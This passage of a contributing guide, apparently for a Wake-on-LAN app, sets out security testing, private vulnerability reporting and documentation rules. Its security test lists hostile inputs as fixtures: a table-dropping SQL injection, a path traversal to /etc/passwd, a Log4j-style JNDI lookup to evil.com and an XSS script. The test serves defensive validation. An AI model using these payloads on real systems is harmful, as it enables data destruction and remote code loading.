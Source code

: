 ### Security Testing

**Required Security Tests:**
```python
def test_security_edge_cases():
    """All input functions must pass security tests"""
    malicious_inputs = [
        "'; DROP TABLE users; --",      # SQL injection
        "../../../etc/passwd",          # Path traversal
        "${jndi:ldap://evil.com/x}",   # Log4j-style injection
        "<script>alert('xss')</script>", # XSS attempt
        "A" * 10000,                    # Buffer overflow attempt
        "\x00\x01\x02\x03\x04\x05",   # Binary injection
    ]
    
    for malicious_input in malicious_inputs:
        # Test all input validation functions
        assert not validate_mac(malicious_input)
        assert not validate_ip(malicious_input)
```

### Reporting Security Issues

**Security Vulnerability Disclosure:**
- **DO NOT** create public GitHub issues for security vulnerabilities
- **DO** email security issues privately to: [maintainer email]
- **DO** provide detailed reproduction steps
- **DO** suggest fixes if possible

**Security Issue Format:**
```
Subject: [SECURITY] Brief description

Vulnerability Details:
- Component affected: [Swift client/Python server/Both]
- Vulnerability type: [Injection/DoS/Information Disclosure/etc.]
- Severity: [Critical/High/Medium/Low]
- Reproduction steps: [Detailed steps]
- Potential impact: [Description of impact]
- Suggested fix: [If you have suggestions]

Environment:
- WoL Manu version: [version]
- Operating System: [macOS version]
- Network configuration: [if relevant]
```

## 📚 Documentation Guidelines

### Documentation Requirements

**All new features must include:**
- **Inline Code Comments** - Complex logic explained
- **Function Documentation** - Parameters, return values, exceptions
- **User Documentation** - How to use the feature
- **Security Notes** - Any security implications
